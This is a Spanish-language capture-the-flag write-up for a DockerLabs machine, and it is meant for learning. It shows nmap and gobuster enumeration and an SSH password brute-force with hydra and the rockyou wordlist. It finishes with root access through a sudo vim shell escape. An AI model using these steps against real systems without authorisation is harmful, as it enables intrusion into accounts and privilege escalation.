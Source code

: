 ## WRITEUP DE LA MÁQUINA OBSSESION DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos mediante la herramienta nmap, esto casi siempre es el comienzo para la resolución de una máquina o CTF.

```shell
└─$ nmap -sV -sC 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br><br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br><br>
"172.17.0.2" Es la dirección IP de la máquina víctima.
<br><br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

En este caso no he utlizado ni "-p-", ni "-n", ni "--min-rate 5000" ya que me tardaba mucho hacer el escaneo y para algo tan sencillo es más eficaz y rapido ejecutar un comando más corto.

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-18 04:47 EDT
Nmap scan report for 172.17.0.2
Host is up (0.00018s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.19 seconds
```

Observamos que los puertos 21, 22 y 80 de los servicios ftp, ssh, http respectivamente estan abiertos, vamos a tirar por observar la dirección IP en algún buscador ya que el servicio http esta abierto. Vemos la siguiente página:
<br><br>
![foto de la pagina web](![paginaweb](https://github.com/user-attachments/assets/63946c0e-9f99-43b0-86e5-13bdaec9e64c)
)
<br><br>
Mediante fuzzing web con la herramienta gobuster (hay más herramientas como wfuzz) vamos a buscar directorios ocultos en dicha página web. Ejecutamos:

```shell
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```
El modo dir indica que Gobuster realizará una enumeración de directorios y archivos.
"-u" Especifica la URL del objetivo que Gobuster escaneará. En este caso, el objetivo es http://172.17.0.2/.
<br><br>
"-w" Especifica la lista de palabras (wordlist) que Gobuster usará para la fuerza bruta. La lista de palabras contiene nombres de directorios y archivos comunes que Gobuster intentará encontrar en el servidor web. Aquí se está utilizando una lista de palabras proporcionada por DirBuster, llamada directory-list-2.3-medium.txt.
<br><br>
"-x" Especifica las extensiones de archivos que Gobuster intentará agregar a cada entrada en la lista de palabras. En este caso, Gobuster probará cada palabra con las extensiones .php Esto significa que si una entrada en la lista de palabras es admin, Gobuster probará admin.php

Obtenemos:
<br>

```shell
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/backup               (Status: 301) [Size: 309] [--> http://172.17.0.2/backup/]
/important            (Status: 301) [Size: 312] [--> http://172.17.0.2/important/]
/server-status        (Status: 403) [Size: 275]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

Viendo los directorios ocultos del sitio web, probamos a meter en la url http://172.17.0.2/backup/ y nos muestra otra pagina con fichero llamado "Backup.txt"
<br><br>
![foto del fichero backup.txt](![backup](https://github.com/user-attachments/assets/10d75e0e-252f-40a6-a465-14bdf2f65887)
)
<br><br>
Si pinchamos en el, nos muestra una línea de texto que dice llamarse "russoski" como usuario. En el otro directorio llamada "important" encontramos un fichero .md donde hay un escrito sobre una historia de hacking, algo interesante pero nada relevante para el writeup.
<br><br>
![foto que muestra el nombre de usuario](![usuario](https://github.com/user-attachments/assets/a32a3fab-06af-4d01-95d3-6cfdd6335965)
)
<br><br>
Sabiendo el nombre de usuario vamos a realizar un ataque de fuerza bruta con hydra al servicio ssh con nombre "russoski", usaremos la wordlits "rockyou.txt"
<br>
```sh
└─$ hydra -l russoski -P /home/kali/Desktop/rockyou.txt ssh://172.17.0.2/ -t 5
```
"-l russoski" Indica qué nombre de usuario va a usar en el ataque, en este caso buscamos a russoski.
<br><br>
"-P /home/kali/Desktop/rockyou.txt" Especifica la wordlist de contraseñas que va a usar para probar el ataque de fuerza bruta, cada uno pone la ruta donde se encuentre su fichero wordlist.
<br><br>
"ssh://172.17.0.2/" Especifica el protocolo y la dirección del objetivo del ataque. En este caso, se está atacando el servicio SSH (Secure Shell) en la dirección IP 172.17.0.2
<br><br>
"-t 5" Especifica el número de tareas (threads) paralelas que Hydra debe usar durante el ataque. En este caso, -t 5 indica que Hydra debe utilizar 5 hilos de ejecución simultáneos para probar las combinaciones de nombre de usuario y contraseña. (Nos va a tomar un par de minutos)

Este es el resultado:
<br>

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-18 11:45:10
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344399 login tries (l:1/p:14344399), ~2868880 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 50.00 tries/min, 50 tries in 00:01h, 14344349 to do in 4781:27h, 5 active
[STATUS] 35.00 tries/min, 105 tries in 00:03h, 14344294 to do in 6830:37h, 5 active

[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme

1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-18 11:48:32
```
Encontramos en la línea apartada (la he separado yo para que sea más legible), que la contraseña es "iloveme". Ahora toca mediante conexion ssh entrar al usuario russoski. Hay veces que se cierra la conexion con un WARNING: REMOTE  HOST IDENTIFICATION HAS CHANGED!, para solucionar solo hay que ejecutar el ssh con un sudo delante:
<br>

```
└─$ sudo ssh russoski@172.17.0.2
```
```
[sudo] password for kali: 
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:R8ZiOJN33rhfvGADBLwVQ1mPV7lSmGJACOhjdTB0wMQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
russoski@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Jun 18 04:38:10 2024 from 172.17.0.1
russoski@1df4a6f0847e:~$ 
```
Toca escalar privilegios. Escribimos el comando "sudo -l" el cual  permite a un usuario verificar qué comandos tienen permiso para ejecutar como superusuario (o cualquier otro usuario especificado).

```
russoski@1df4a6f0847e:~$ sudo -l
Matching Defaults entries for russoski on 1df4a6f0847e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on 1df4a6f0847e:
    (root) NOPASSWD: /usr/bin/vim
```
Ya sabemos que hacer, ir a la página GTFObins (https://gtfobins.github.io/#) para escalar privilegios en este caso con el binario "vim". Con buscar "vim" en el buscador de la página e ir al partado de sudo, encontramos nuestra forma de ser root, en este caso tendremos que ejecutar " sudo vim -c ':!/bin/sh' "

```
russoski@1df4a6f0847e:~$ sudo vim -c ':!/bin/sh'
# whoami
root
```
Ya somos root, espero que os haya gustado este writeup, muchas gracias!
